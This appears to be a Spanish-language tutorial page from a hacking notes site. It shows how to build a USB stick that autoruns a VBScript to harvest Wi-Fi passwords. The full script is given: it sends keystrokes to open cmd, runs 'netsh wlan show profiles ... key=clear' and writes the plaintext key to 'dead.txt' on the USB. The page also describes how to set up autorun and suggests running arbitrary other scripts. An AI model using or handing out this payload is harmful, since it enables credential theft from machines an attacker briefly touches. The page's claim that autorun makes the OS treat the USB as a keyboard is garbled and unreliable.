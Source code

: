 ```yaml
---
icon: scroll-old
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# USB AutoRun

Si queremos emular el comportamiento de un USB `Rubber Ducky`, que basicamente cuando insertemos el USB en algun PC se ejecute el script que nosotros hayamos programado de forma automatica, esto se consigue haciendo creer al sistema operativo que se esta conectando un teclado y con el script enviar tecla por tecla lo que se quiere escribir o hacer en el S.O. como si fuera un teclado.

Lo que primero tendremos que hacer sera instalar el siguiente programa llamado `AutoRun Creator`:

URL = [Download AutoRun Creator](https://usb-autorun-creator.softonic.com)

Una vez que hayamos descargado el ejecutable llamado `usbac_setup_smof.exe`, solo tendremos que seguir los pasos de instalacion de forma normal, cuando se haya instalado tendremos que buscar en `windows` lo siguiente:

```
USB AutoRun Creator - Editor
```

Ejecutamos esa aplicacion para que se nos habra el programa para crear el USB `AutoRun`, pero antes de seleccionar las opciones, crearemos un script basico para dumpear la informacion de la `red wifi` seleccionada + la contraseña en texto plano de forma automatica:

## <mark style="color:purple;">Crear Script VBS</mark>

> wifiHack.vbs

```vbs
Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' 👉 Nombre de la red Wi-Fi y archivo de salida
Dim wifiName
wifiName = "<WIFI_NAME>"
Dim notepadFileName
notepadFileName = "dead.txt"

' 👉 Verifica permisos de administrador
If Not objShell.Run("cmd.exe /c net session >nul 2>&1", 0, True) = 0 Then
    MsgBox "Por favor, ejecuta este script con permisos de administrador.", vbCritical, "Error de permisos"
    WScript.Quit
End If

' 👉 Ruta donde se guardará el archivo (D:\dead.txt)
Dim outputFilePath
outputFilePath = "<LETRA_DE_LA_UNIDAD>:\" & notepadFileName

' 👉 Crear el objeto para enviar teclas
Set x = CreateObject("WScript.Shell")

' 👉 Abrir la ventana de comandos (cmd)
x.SendKeys "^{ESC}"  ' Abre el menú de inicio
WScript.Sleep(1000)

x.SendKeys "cmd"  ' Escribe 'cmd' para buscar el símbolo del sistema
WScript.Sleep(1000)

x.SendKeys "{ENTER}"  ' Ejecuta el comando
WScript.Sleep(1000)

' 👉 Construir el comando para obtener información de la red
x.SendKeys "netsh wlan show profiles """ & wifiName & """ key=clear > """ & outputFilePath & """"
WScript.Sleep(1000)

' 👉 Ejecutar el comando (simula presionar Enter)
x.SendKeys "{ENTER}"
WScript.Sleep(2000)

' 👉 Salir de la ventana de comandos (cmd)
x.SendKeys "exit"
WScript.Sleep(500)
x.SendKeys "{ENTER}"
WScript.Sleep(1000)

' 👉 Verifica si el archivo de salida se ha creado en D:\
If objFSO.FileExists(outputFilePath) Then
    ' 👉 Abre el archivo en Notepad
    objShell.Run "notepad.exe """ & outputFilePath & """", 1, False
Else
    MsgBox "No se pudo generar el archivo: " & outputFilePath, vbCritical, "Error"
End If
```

Lo unico que tendremos que cambiar sera la parte de `<WIFI_NAME>` donde tendremos que sustituirlo por el nombre del `wifi` que queramos sacar info y en concreto la contraseña, despues tambien tendremos que cambiar la parte donde pone `<LETRA_DE_LA_UNIDAD>` por la letra de la unidad del USB que es donde se depositara el archivo `dead.txt` donde estara toda la informacion de la `red wifi` con su contraseña.

> EJEMPLO:

```
"<LETRA_DE_LA_UNIDAD>" = "D:\"

"<WIFI_NAME>" = "wifitest"
```

Una vez echo esto lo guardaremos en el USB y por si acaso crearemos el archivo `dead.txt` en el USB tambien.

## <mark style="color:purple;">Crear USB AutoRun</mark>

Llendo donde estabamos en la interfaz del `USB AutoRun Creator` de la aplicacion, tendremos que darle a `Select` en la primera opcion:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y en este seleccionaremos el archivo `wifiHack.vbs` que esta en el USB.

Despues en la segunda opcion seleccionaremos `Browser`:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y seleccionaremos la letra de la unidad del USB, seguidamente le daremos a la opcion `USB Drive`:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y le daremos a `OK`.

Una vez configurado todo solo tendremos que darle al boton llamado `Create` y esto nos creara todo para que el USB inicie de forma automatica el el script que seleccionamos y que el S.O. se piense que el USB es un teclado, para que asi se ejecute el script, una vez que se termine de ejecutar el script, veremos que la informacion del `wifi` y la contraseña estara en ese TXT.

Ya no solo podremos ejecutar ese script, si no que podremos programar otros scripts para que hagan lo que queramos.

Solo tendremos que sacar el USB y volverlo a insertar para que se ejecute el script de forma automatica.
